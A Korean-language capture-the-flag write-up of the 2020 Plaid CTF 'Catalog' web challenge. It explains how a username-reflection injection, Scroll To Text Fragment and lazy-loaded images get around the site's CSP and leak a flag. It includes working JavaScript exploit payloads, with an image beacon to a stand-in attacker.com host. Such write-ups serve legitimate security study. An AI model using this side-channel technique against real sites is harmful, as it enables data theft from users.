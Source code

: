 ```yaml
---
layout: post
title:  "2020 Plaid CTF - Catalog"
author: "iwkang@raoncorp.com"
comments: true
tags: [ctf, write-up]
---
```


# 2020 Plaid CTF Catalog

> 2020.04
라온화이트햇 핵심연구팀 강인욱 (iwkang@raoncorp.com)

2020 Plaid CTF에 출제된 문제중 0 솔버였던 흥미로운 문제이다.

문제 출제자 : [https://twitter.com/thebluepichu](https://twitter.com/thebluepichu)

이 문제에 처음 접속 하면 아래와 같이 회원가입, 로그인, 로그아웃 글 작성을 하는 기능이 있으며, 로그인시 관련된 정보(BAM! ~~~~)가 상단에 출력된다.

![/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png](/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png)

CSP를 확인해보면 아래와 같다.

```jsx
Content-Security-Policy: default-src 'nonce-xxxxx'; img-src *; font-src 'self' fonts.gstatic.com; frame-src https://www.google.com/recaptcha/
```

nonce가 활성화되어 있으며 스크립트를 삽입하더라도 코드 실행을 할 수 없습니다. 한가지 주목할 점은 img 태그의 경로를 외부 링크로 설정할 수 있다는 점이다.

문제의 목적은 문제 출제자가 작성한 id=3의 게시글에서 플래그를 가져와야 한다. 플래그 포맷은 다음과 같다.

```jsx
Flag format : /^PCTF\{[A-Z0-9_]+\}$/ 
```

플래그 포맷을 주었다는 점에서 어떠한 작업을 이용해 브루트 포싱으로 플래그를 "검색"해서 읽어야 한다는 것을 알 수 있다.

공격 시나리오를 예상해보면 다음과 같다.

1. 글을 작성하여 봇이 글을 읽게한다.
2. id=3 게시글에 접근하여 어떠한 방법을 통해 이미지 지연 로딩(loading=lazy)을 활용하여 플래그를 유추한다.

대회 당시에는 "어떠한 방법"을 찾을 수 없었지만 Chrome 80 부터 Scroll To Text Fragment가 가능하다고 한다.

[https://www.chromestatus.com/feature/4733392803332096](https://www.chromestatus.com/feature/4733392803332096)

Scroll To Text Fragment은 아래와 같이 사용 가능하다. 이 기능을 이용하기 위해선 사용자 제스처(탭, 클릭)가 필요하다. 출제자는 uBlock Origin 플러그인이 활성화되어 있을 경우를 가정했다.

 

STTF 보안 이슈

```jsx
https://docs.google.com/document/d/1YHcl1-vE_ZnZ0kL2almeikAj2gkwCq8_5xwIae7PVik/edit#heading=h.uoiwg23pt0tx
```

사용법

```jsx
https://en.wikipedia.org/wiki/Cat#:~:text=On
```

이 기능을 사용하면 문서 내용중 "On"이라는 글자가 있는 곳으로 스크롤 된다. 

그렇다면, 이 기능을 사용하여 플래그를 읽으려면 id=3 게시물에 스크립트가 삽입이 되어야한다.

스크립트 삽입은 로그인시 상단에 표시되는 아이디로 가능합니다. 로그인을 실패해도 상단에 메세지가 뜨기 때문에 스크립트 삽입이 가능해진다.

![/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png](/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png)

아래와 같이 유저이름에 스크립트를 삽입한 후 id=3로 이동시키면 상단에 스크립트가 삽입된다.

```jsx
<script>
fetch("http://catalog.pwni.ng/user.php", {
	method: "POST",
	mode: "no-cors",
	credentials: "include",
	headers: {
		"content-type": "application/x-www-form-urlencoded"
	},
	body: "username="+encodeURIComponent("<myscript>test code</myscript>")+"&password=hello&action=login"
}).then(() => {
	window.location = "http://catalog.pwni.ng/issue.php?id=3";
});
</script>
```

이제 단서들을 모아서 공격 시나리오를 재구성 하면 아래와 같다.

1. 관리자가 ublock origin 플러그인을 사용중인 상태에서 게시글을 클릭한다.
2. meta tag를 이용해 attacker.com으로 이동 시킨다.
3. attacker.com에서 로그인 요청을 발생시켜 id=3 게시물 상단에 스크립트를 삽입한다.
4. 스크립트로 meta tag를 이용해 Scroll To Text Fragment를 발생시킨다.
5. 이미지 지연 로딩(<img src="http://attacker.com/img" loading="lazy">)을 이용해 플래그가 검색될 경우 attacker.com의 이미지를 로드하도록 한다.
6. 이미지가 로딩되면 검색이 되었다는 뜻이고 로딩이 안되면 검색이 안되었다는 뜻이다.

예시 코드

```jsx
<script>

alphabet = `}0123456789ABDEFGHIJKLMNOPQRSTUVWXYZ_`;
payload  = "";

content = "~~~~~~<h1></h1>".repeat(500)+"<img src="http://attacker.com/img" loading="lazy" />~~~~~";

for (let letter of alphabet) {
    payload += `text=T-,F,{,-${letter}%26`;
}
payload = "#:~:" + payload.substring(0, payload.length - 3);

fetch("http://catalog.pwni.ng/user.php", {
	method: "POST",
	mode: "no-cors",
	credentials: "include",
	headers: {
		"content-type": "application/x-www-form-urlencoded"
	},
	body: "username="+encodeURIComponent(content)+"&password=hello&action=login"
}).then(() => {
	window.location = "http://catalog.pwni.ng/issue.php?id=3#:~:"+payload;
});
</script>
```